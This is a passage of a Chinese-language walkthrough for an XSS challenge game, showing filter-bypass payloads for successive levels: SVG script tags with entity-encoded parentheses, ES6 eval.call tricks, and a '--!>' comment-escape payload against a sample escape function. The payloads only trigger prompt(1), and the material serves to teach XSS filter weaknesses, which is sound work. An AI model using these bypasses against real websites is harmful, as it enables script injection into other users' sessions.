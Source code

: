 ```
<svg><script>prompt&#40;1)<b>

```

Chrome 下需要 script 闭合标签，所以上述 payload 不成功。最短的答案如下(35 个字符)

```
<svg><script>prompt&#40;1)</script>

```

未来所有的浏览器支持 ES6，还可以使用下述编码：

```
<script>eval.call`${'prompt\x281)'}`</script>

```

或者

```
<script>eval.call`${'prompt\x281)'}`</script>

```

### 背景知识

由于 xml 编码特性。在 SVG 向量里面的`<script>`元素（或者其他 CDATA 元素 ），会先进行 xml 解析。因此`&#x28`（十六进制）或者`&#40`（十进制）或者`&lpar；`（html 实体编码）会被还原成`（`。

## Level 3

* * *

过滤了`->`。但是 2012 已经公布，html5 的注释标签不仅可以使用`-->`，还可以使用`--!>`。

### 代码

```
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}

```

25 个字符通杀三个浏览器如下：

```
--!><svg/onload=prompt(1)

```

## Level 4
